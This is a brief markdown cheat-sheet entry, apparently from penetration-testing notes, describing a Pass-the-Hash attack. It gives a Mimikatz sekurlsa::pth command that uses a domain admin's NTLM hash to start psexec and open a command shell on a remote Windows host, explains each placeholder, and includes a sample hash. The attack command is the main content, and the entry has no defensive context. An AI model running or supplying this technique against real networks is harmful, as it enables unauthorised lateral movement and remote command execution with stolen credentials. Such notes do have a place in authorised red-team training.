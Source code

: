 # Pass the Hash (PtH)

Open Mimikatz from the admin cmd prompt.

Run the following command:   
```bash
sekurlsa::pth /domain:DOMAIN_NAME /user:DOMAIN_USERNAME /ntlm:USER_NTLM_HASH /run:".\psexec \\REMOTE_HOST_IP -h cmd.exe"
```
 - `DOMAIN_NAME` is the name of the domain e.g. `mydomain.local`.
 - `DOMAIN_USERNAME` is the username of the DA e.g. `oldmate`.
 - `USER_NTLM_HASH` is the NTLM hash of the DA account e.g. `58a478135a93ac3bf058a5ea0e8fdb71`.

A new CMD prompt should open that will be running on the remote host.